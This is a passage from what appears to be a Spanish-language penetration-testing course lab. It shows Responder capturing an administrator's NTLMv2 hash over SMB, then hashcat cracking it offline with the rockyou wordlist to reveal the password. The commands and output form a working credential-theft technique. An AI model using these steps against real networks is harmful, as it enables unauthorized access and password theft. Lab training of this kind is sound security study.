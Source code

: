 ```shell-session
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun2]
    Responder IP               [10.10.14.3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']



[!] Error starting SSL server on port 443, check permissions or other servers running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...
```

#### Cracking NTLMV2 Hash con hashcat

Entonces podríamos intentar descifrar esta contraseña hash fuera de línea usando`Hashcat`Para recuperar el ClearText.

  Interactuar con los usuarios

```shell-session
xnoxos@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Welcome1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
```